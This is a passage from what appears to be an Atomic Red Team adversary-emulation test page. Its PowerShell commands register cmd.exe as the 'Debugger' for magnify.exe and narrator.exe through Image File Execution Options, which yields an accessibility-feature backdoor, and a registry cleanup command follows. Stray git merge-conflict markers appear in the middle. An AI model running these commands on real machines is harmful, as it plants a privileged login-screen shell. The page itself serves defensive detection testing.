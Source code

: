 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /f
```

<<<<<<< HEAD




=======
>>>>>>> parent of 511bb87... Add Dependencies section to test Yaml and support to use them in the PS execution framework (#772)
<br/>
<br/>

## Atomic Test #5 - Attaches Command Prompt As Debugger To Process - narrator
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | narrator.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```
